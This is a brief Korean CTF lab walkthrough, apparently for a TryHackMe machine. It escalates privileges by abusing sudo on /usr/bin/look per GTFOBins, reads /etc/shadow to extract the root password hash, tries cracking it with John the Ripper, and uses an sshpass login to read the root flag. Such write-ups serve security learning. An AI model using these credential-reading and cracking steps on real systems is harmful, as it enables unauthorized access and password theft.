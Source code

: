 # ls

user.txt 발견
/usr/bin/look 발견

# https://gtfobins.github.io/ -> look 검색

LFILE=file_to_read
sudo look '' "$LFILE"

# GTOF

```bash
LFILE=/etc/shadow
sudo /usr/bin/look '' "$LFILE" | grep root
```

think@ip-10-10-67-138:/usr/bin$ sudo /usr/bin/look '' "$LFILE" | grep root
root:$6$2Let6rRsGjyY5Nym$Z9P/fbmQG/EnCtlx9U5l78.bQYu8ZRwG9rgKqurGHHLpMWIXd01lUsj42ifJHHkBlwodtvi1C2Vor8Hwbu6sU1:19855:0:99999:7:::

```bash
# 해시값만 추출 -> 2번째 필드
echo '$6$2Let6rRsGjyY5Nym$Z9P/fbmQG/EnCtlx9U5l78.bQYu8ZRwG9rgKqurGHHLpMWIXd01lUsj42ifJHHkBlwodtvi1C2Vor8Hwbu6sU1' > hash.txt
# 해시타입 확인
apt update
apt install hashid
hashid hash.txt
```

# SHA-512 확인

--File 'hash.txt'--
Analyzing '$6$2Let6rRsGjyY5Nym$Z9P/fbmQG/EnCtlx9U5l78.bQYu8ZRwG9rgKqurGHHLpMWIXd01lUsj42ifJHHkBlwodtvi1C2Vor8Hwbu6sU1'
[+] SHA-512 Crypt
--End of file 'hash.txt'--

### John the Ripper로 크래킹하기

```bash
# 워드리스트 설치
apt install wordlists
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

# 안 나옴! 다시 접근해서 root 확인 -> GTOF

```bash
sshpass -p 'josemario.AKA(think)' ssh think@10.10.67.138
LFILE=/root/root.txt
sudo /usr/bin/look '' "$LFILE"

[sudo] password for think:
5a285a9f257e45c68bb6c9f9f57d18e8
```
